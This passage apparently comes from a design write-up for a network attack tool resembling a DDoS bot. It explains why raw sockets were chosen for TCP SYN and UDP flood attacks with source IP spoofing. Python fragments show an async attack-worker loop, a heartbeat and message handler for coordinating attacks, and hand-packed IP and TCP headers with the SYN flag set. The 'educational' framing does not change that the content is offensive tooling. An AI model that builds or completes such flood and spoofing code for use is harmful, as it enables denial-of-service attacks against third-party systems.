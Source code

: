 **Key Patterns Used**:
```python
# Concurrent task execution
async def attack_worker():
    while self.running:
        await self.execute_attack()
        await asyncio.sleep(self.request_interval)

# Task management
self.attack_task = asyncio.create_task(self._attack_worker())

# Concurrent operations
await asyncio.gather(
    self.start_heartbeat(),
    self.start_message_handler(),
    self.start_attack_module()
)
```

---

### 6. Raw Sockets 🔧

**Purpose**: Low-level network packet generation for TCP SYN and UDP flood attacks

**Why Chosen**:
- **Packet Control**: Full control over packet headers and content
- **Attack Realism**: Generate authentic attack traffic
- **Performance**: Direct kernel interface for maximum speed
- **Educational Value**: Demonstrates low-level networking concepts
- **Flexibility**: Can craft any type of network packet

**Specific Uses**:
- TCP SYN flood attack implementation
- UDP flood packet generation
- IP header manipulation
- Source IP spoofing (for educational purposes)
- Custom packet crafting

**Implementation Example**:
```python
# Create raw socket for TCP SYN flood
self.socket = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_TCP)
self.socket.setsockopt(socket.IPPROTO_IP, socket.IP_HDRINCL, 1)

# Create IP header
ip_header = struct.pack('!BBHHHBBH4s4s',
    (version << 4) + ihl, tos, total_length,
    identification, (flags << 13) + fragment_offset,
    ttl, protocol, checksum, source, dest)

# Create TCP header with SYN flag
tcp_header = struct.pack('!HHLLBBHHH',
    source_port, dest_port, seq_num, ack_num,
    (data_offset << 4) + reserved, 0x02,  # SYN flag
    window_size, checksum, urgent_pointer)
```

---